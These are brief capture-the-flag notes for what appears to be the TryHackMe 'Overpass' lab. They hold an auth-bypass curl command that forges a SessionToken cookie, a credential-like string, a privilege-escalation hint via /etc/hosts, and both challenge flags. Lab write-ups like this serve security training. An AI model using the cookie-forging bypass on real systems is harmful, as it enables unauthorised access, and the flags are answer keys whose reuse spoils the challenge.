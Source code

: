 # Overpass infor
$IP = 10.10.69.139

# Port open
```
22
80
```


----------------------------------

# 1. Hack the machine and get the flag in user.txt

```
curl http://10.10.69.139/admin/ --cookie SessionToken=anything
james@james13
```


```
thm{65c1aaf000506e56996822c6281e6bf7}
```

# 2. Escalate your privileges and get the flag in root.txt


```
/etc/hosts
```

```
thm{7f336f8c359dbac18d54fdd64ea753bb}
```
